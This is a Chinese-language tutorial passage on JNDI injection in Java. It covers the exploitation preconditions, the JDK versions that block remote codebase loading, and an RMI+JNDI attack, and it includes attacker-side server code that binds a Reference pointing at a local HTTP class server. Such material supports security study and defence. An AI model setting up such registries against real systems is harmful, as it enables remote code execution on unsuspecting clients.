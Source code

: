 

# JNDI注入简介

JNDI注入通俗的来讲就是当url值可控的时候,也就是在JNDI接口初始化`InitialContext.lookup(URL)`引发的漏洞,导致可以远程加载恶意class文件,造成的远程代码执行

## **jndi注入的利用条件**

- **客户端的lookup()方法的参数可控**
- **服务端在使用Reference时，**Reference(String className, String factory, String factoryLocation)中，**factoryLocation参数可控/可利用**

上面两个都是在编写程序时可能存在的脆弱点（**任意一个满足就行**），除此之外，jdk版本在jndi注入中也起着至关重要的作用，而且不同的攻击对jdk的版本要求也不一致，这里就全部列出来：

- JDK 5 U45,JDK 6 U45,JDK 7u21,JDK 8u121开始：java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性
- JDK 6u141、7u131、8u121开始：增加了com.sun.jndi.**rmi**.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击
- JDK 6u211、7u201、8u191开始：增加了com.sun.jndi.**ldap**.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了

## RMI+JNDI(这里使用的实验环境是8u74)

RMI+JNDI注入就是将恶意的Reference类绑定在RMI注册表中，其中恶意引用指向远程恶意的class文件，当用户在JNDI客户端的lookup()函数参数外部可控或Reference类构造方法的classFactoryLocation参数外部可控时，会使用户的JNDI客户端访问RMI注册表中绑定的恶意Reference类，从而加载远程服务器上的恶意class文件在客户端本地执行，最终实现JNDI注入攻击导致远程代码执行

**javax.naming.Reference**构造方法为：Reference(String className, String factory, String factoryLocation)，

1. className - 远程加载时所使用的类名
2. classFactory - 加载的class中需要实例化类的名称
3. classFactoryLocation - 提供classes数据的地址可以是file/ftp/http等协议

因为Reference没有实现Remote接口也没有继承UnicastRemoteObject类，故不能作为远程对象bind到注册中心，所以需要使用ReferenceWrapper对Reference的实例进行一个封装。

服务端代码如下：

```java
//server.java
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class server {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        String url = "http://127.0.0.1:8081/";
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("obj",referenceWrapper);
        System.out.println("running");
    }
}
```
